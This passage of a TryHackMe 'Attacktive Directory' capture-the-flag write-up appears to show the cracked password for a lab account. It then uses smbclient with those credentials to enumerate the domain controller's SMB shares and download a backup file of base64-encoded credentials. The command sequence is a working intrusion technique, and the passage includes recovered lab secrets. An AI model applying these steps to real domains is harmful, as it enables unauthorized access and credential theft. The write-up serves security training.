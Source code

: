```
Restore.Point....: 5836800/14344385 (40.69%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: manaiagal -> mamglo

Started: Sat Oct 17 11:19:50 2020
Stopped: Sat Oct 17 11:20:44 2020
```

`management2005`

## Task 6 Enumerate the DC Pt 3

**Enumeration:**

With a user's account credentials we now have significantly more access within the domain. We can now attempt to enumerate any shares that the domain controller may be giving out.

1. Using utility can we map remote SMB shares?

```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ smbclient -U spookysec.local/svc-admin -L //10.10.225.245
Enter SPOOKYSEC.LOCAL\svc-admin's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

`smbclient`

2. Which option will list shares?

`-L`

3. How many remote shares is the server listing?

`6`

4. There is one particular share that we have access to that contains a text file. Which share is it?

`backup`

5. What is the content of the file?

```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ smbclient -U spookysec.local/svc-admin //10.10.225.245/backup
Enter SPOOKYSEC.LOCAL\svc-admin's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 21:08:39 2020
  ..                                  D        0  Sat Apr  4 21:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 21:08:53 2020

                8247551 blocks of size 4096. 3465084 blocks available
smb: \> get backup_credentials.txt 
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \> exit
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ cat backup_credentials.txt 
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
```